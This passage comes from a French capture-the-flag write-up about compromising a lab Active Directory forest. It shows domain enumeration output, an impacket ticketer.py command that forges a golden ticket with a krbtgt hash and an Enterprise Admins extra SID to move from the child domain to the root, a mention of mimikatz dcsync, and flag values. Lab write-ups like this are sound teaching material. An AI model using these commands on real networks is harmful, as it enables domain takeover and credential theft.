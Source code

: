 ```
Forest                             : pramacorp.fr
InfrastructureMaster               : ad.pramacorp.fr
LastLogonReplicationInterval       : 
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9}
                                     ,CN=Policies,CN=System,DC=pramacorp,DC=fr}
LostAndFoundContainer              : CN=LostAndFound,DC=pramacorp,DC=fr
ManagedBy                          : 
Name                               : pramacorp
NetBIOSName                        : CORP
ObjectClass                        : domainDNS
ObjectGUID                         : 66fd4539-4b74-4e19-b5a7-1828b92ea6e3
ParentDomain                       : 
PDCEmulator                        : ad.pramacorp.fr
QuotasContainer                    : CN=NTDS Quotas,DC=pramacorp,DC=fr
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {ad.pramacorp.fr}
RIDMaster                          : ad.pramacorp.fr
SubordinateReferences              : {DC=dev,DC=pramacorp,DC=fr, 
                                     DC=ForestDnsZones,DC=pramacorp,DC=fr, 
                                     DC=DomainDnsZones,DC=pramacorp,DC=fr, 
                                     CN=Configuration,DC=pramacorp,DC=fr}
SystemsContainer                   : CN=System,DC=pramacorp,DC=fr
UsersContainer                     : CN=Users,DC=pramacorp,DC=fr

..Command execution completed.
```

Utilisons le sid du domaine pramacorp.fr pour notre utilisateur krbtgt du sous-domaine. Mais avant tout il nous faut un groupe d'utilisateur à ajouter au SID.
Pour tout les détails sur les SID, je vous conseil le ![support de Microsoft](https://support.microsoft.com/fr-fr/help/243330/well-known-security-identifiers-in-windows-operating-systems).
Nous allons utiliser le SID suivant de cette forme : `S-1-5-21domain racine-519`

On a plus qu'à créer le golden ticket avec le sid du domaine root :
```
impacket/examples/ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV.PRAMACORP.FR Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519
```

Une fois le ticket entre nos mains, il ne reste plus qu'à le jouer sur le domaine pour récupérer le flag5.
On peut uploader un mimikatz sur le serveur cible et récupérer l'identifiant avec le module lsadump::dcsync.

Et voilà le flag de cette étape : 5a3a5e76a7f4ef645fc82118ab87b56c.

## Heureseument que les navigateurs sont là pour nous faciliter la vie (flag 6)

Nous avonc compromis le domaine pramacorp.fr. Pour la suite de l'épreuve, nous devons allumer un écran (flag 7) mais avant tout récupérons un accés à la machine du développeur pour avoir un accé à une application qui nous donnera accés à l'écran.
